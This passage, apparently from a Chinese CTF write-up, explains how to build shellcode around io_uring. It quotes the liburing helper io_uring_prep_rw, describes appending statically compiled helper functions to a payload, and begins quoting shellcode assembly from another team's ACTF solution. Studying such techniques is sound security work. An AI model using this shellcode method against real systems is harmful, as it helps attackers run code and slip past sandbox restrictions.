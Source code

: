 注意编译时需要加上`-luring`编译选项。

在这个demo中，我们看到一些上面没见过的函数，比如`io_uring_prep_read`等，这些函数又是在哪里声明与实现的呢？我翻遍了整个liburing仓库，但只看到了这些函数的声明，直到最后我在Linux的源码中发现了这些函数的实现。而且最坑的是，在elixir.bootlin.com中直接搜这些函数很可能还搜不到。

这些函数的实现位于`/tools/io_uring/liburing.h`（Linux 6.5.7版本，在Linux 6.6里面反而找不到这个目录了）中，但不是全都有，如`io_uring_prep_read`、`io_uring_prep_write`、`io_uring_prep_openat`等实际上调用的都是`io_uring_prep_rw`。在对demo程序进行逆向后发现，`io_uring_prep_read`实际上除了不需要我们使用读操作的opcode之外，其他的参数赋值都是一样的。

```c
static inline void io_uring_prep_rw(int op, struct io_uring_sqe *sqe, int fd,
				    const void *addr, unsigned len,
				    off_t offset)
{
	memset(sqe, 0, sizeof(*sqe));
	sqe->opcode = op;
	sqe->fd = fd;
	sqe->off = offset;
	sqe->addr = (unsigned long) addr;
	sqe->len = len;
}
```

在上面的C文件中，我们可以看到，有一些封装好的函数可以帮助我们与共享内存空间进行交互。那么在我们写shellcode的时候，就可以通过使用静态编译的C程序将这些函数提取出来，放在我们的shellcode后面，这样就能够在shellcode中直接使用这些封装函数，而不需要我们直接对内存空间进行操作，这样不仅省时，还能减少错误。

下面，我们就来尝试将上面的C程序变成shellcode。

我们将上面的程序进行静态编译，可以提取出下面几个较简单的封装函数的汇编代码，由于代码篇幅较大，这里省略展示：

- `io_uring_get_sqe`
- `io_uring_prep_openat`
- `io_uring_prep_rw`（被`io_uring_prep_openat`调用）
- `io_uring_submit`
- `_io_uring_flush_sq`（被`io_uring_submit`调用）
- `_io_uring_submit`（被`io_uring_submit`调用）

除此之外，还有一些比较复杂的函数，如`io_uring_wait_cqe`等，将其转换为汇编语言的代码长度可能较长。

值得注意的是，由于`io_uring`在本质上是异步的IO系统，因此如果`io_uring`在向控制台输出内容后不久程序就会结束，有很大的可能会出现看不到输出的情况。这是正常现象，多试几次就能够出现回显内容。

不过从总体上来看，这段代码的汇编长度还是太长。下面，我们来参考一下su-team师傅的[wp](https://su-team.cn/passages/2023-10-28-ACTF/)，分析一下这篇wp中这段汇编代码的流程：

```masm
lea    rax,[rip+0x3f9-7]
xor    edx,edx
push   0x1
pop    rdi
movq   xmm2,rax
sub    rsp,0x108
lea    rbx,[rsp+0x20]
lea    rbp,[rsp+0x40]
movq   xmm0,rbx
push   rbp
pop    rsi
lea    r12,[rsp+0x18]
punpcklqdq xmm0,xmm2
movaps XMMWORD PTR [rsp],xmm0
sub    rsp,0x88
push   rdx
pop    r9
push   rdi
pop    r8
push   0xf
pop    rcx
xor    eax,eax
push   rsp
```